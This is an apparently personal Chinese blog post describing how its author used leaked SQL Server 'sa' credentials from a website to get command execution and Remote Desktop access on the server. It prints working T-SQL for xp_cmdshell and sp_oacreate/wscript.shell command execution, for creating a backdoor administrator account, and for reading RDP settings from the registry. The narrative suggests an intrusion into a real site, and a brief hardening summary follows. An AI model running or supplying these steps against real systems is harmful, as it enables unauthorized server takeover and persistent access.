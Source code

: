 ```yaml
---
title: 从 SQL Server 提权到远程桌面（存在杀软）
date: 2022-12-25 15:01:00
updated: 2022-12-25 15:01:00
categories:
- [渗透,SQL Server]
tags:
- SQL Server
- 渗透
- 日记
keywords: SQL Server, sql server提权, 渗透
cover: https://img.dreamfall.cn/cover/14.webp
description: 电脑管家就不是什么好东西
---
```

{% note red 'fas fa-fan' flat%}
以下内容属于渗透复现，未经授权的渗透测试是不允许的
{% endnote %}
{% note red 'fas fa-fan' flat%}
利用本文中的技术造成的后果与本人无关，倡导维护网络安全人人有责，共同维护网络文明和谐。
{% endnote %}

## 介绍

SQL Server也称Mssql Server，是微软家的数据库，常见于操作系统是Windows Server的服务器上

SQL Server的默认超级管理员是`sa`，在早期版本中，SQL Server的权限非常大，是`SYSTEM`权限

`sa`用户不仅能修改所有数据库的内容，还能直接对windows的注册表进行修改，执行命令等

## 渗透过程
### 获取数据库密码
通过SQL Server提权渗透，需要数据库的账号密码，不巧的是，我在扫描网站的目录时。发现了一处信息泄露，泄露的SQL Server的用户和密码，更巧的是这个网站使用的是`sa`用户，还告诉了我SQL Server的IP端口，于是我尝试连接，成功连上数据库。
![test.asp](https://img.dreamfall.cn/post/sqlserver/1.webp)
### 执行命令
成功连上数据库，基本上就一半成功了，接下来尝试执行命令
![连接数据库](https://img.dreamfall.cn/post/sqlserver/2.webp)
#### 尝试xp_cmdshell
尝试直接执行命令
```sql
exec master..xp_cmdshell 'whoami'
```
失败，尝试启用`xp_cmdshel`

1. 确认`xp_cmdshell`是否存在
   ```sql
   select count(*) from master.dbo.sysobjects where xtype='x' and name='sp_oacreate';
   ```
   ![xp_cmdshell](https://img.dreamfall.cn/post/sqlserver/3.webp)
结果为1，则证明存在

2. 使用`xp_cmdshell`执行命令，发现报错
    ![xp_cmdshell_2](https://img.dreamfall.cn/post/sqlserver/4.webp)
   `xp_cmdshell`存在，却无法执行命令，我当时怀疑是`xplog70.dll`被删了，`xp_cmdshell`是通过`xplog70.dll`来执行命令的

3. 尝试重新启用`xp_cmdshell`，结果命令结果告诉我`xp_cmdshell`不存在，在高级配置选项里也没有。
   ![xp_cmdshell_3](https://img.dreamfall.cn/post/sqlserver/5.webp)

4. 于是我又尝试重新加载`xp_cmdshell`，
   ```sql
   dbcc addextendedproc("xp_cmdshell","xplog70.dll");
   ```
   ![xp_cmdshell_4](https://img.dreamfall.cn/post/sqlserver/6.webp)

   结果告诉我数据库中已存在名为 'xp_cmdshell' 的对象。

   既然已经存在，那我就删了再重建
   ![xp_cmdshell_5](https://img.dreamfall.cn/post/sqlserver/7.webp)
   结果删都不让我删

我当时这个人直接傻掉，第一次遇到这种情况，存在又不存在的'xp_cmdshell'

#### sp_oacreate

于是`xp_cmdshell`没法用，我尝试使用`sp_oacreate`提权

1. 尝试用系统`wscript.shell`来执行系统命令

   ```sql
   declare @shell int
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net users > F:\tmp\1.txt'
   ```

   执行`net user`命令，并将命令的结果写入网站目录下`1.txt`文件中，通过浏览器访问该文件，获取命令回显
   ![sp_oacreate](https://img.dreamfall.cn/post/sqlserver/10.webp)
   访问文件，发现命令执行成功
   ![sp_oacreate_2](https://img.dreamfall.cn/post/sqlserver/9.webp)

2. 创建用户，添加用户到`administrators`组
   ```sql
   declare @shell int
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user abcd 123456 /add'
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators abcd /add'
   ```
3. 查看远程桌面服务是否启动
   ```sql
   EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server' ,'fDenyTSConnections'
   ```
   0表示开启
4. 获取远程桌面端口
   ```sql
   EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber'
   ```
    ![远程桌面](https://img.dreamfall.cn/post/sqlserver/11.webp)

5. 用windows自带的远程桌面连接成功连上服务器
   ![远程桌面2](https://img.dreamfall.cn/post/sqlserver/12.webp)
发现了这电脑上存在杀软，居然是电脑管家。。。

翻看日志，发现我用 'xp_cmdshell' 执行的命令被这电脑管家拦截了。。。
![电脑管家](https://img.dreamfall.cn/post/sqlserver/8.webp)

## 总结
1. 数据库的管理员账号不要使用于生产环境，一旦成功登录，基本上就离控住你电脑不远了
2. 记得清理网站目录下的文件，防止被利用
3. 腾讯电脑管家用处不大，但总比裸奔好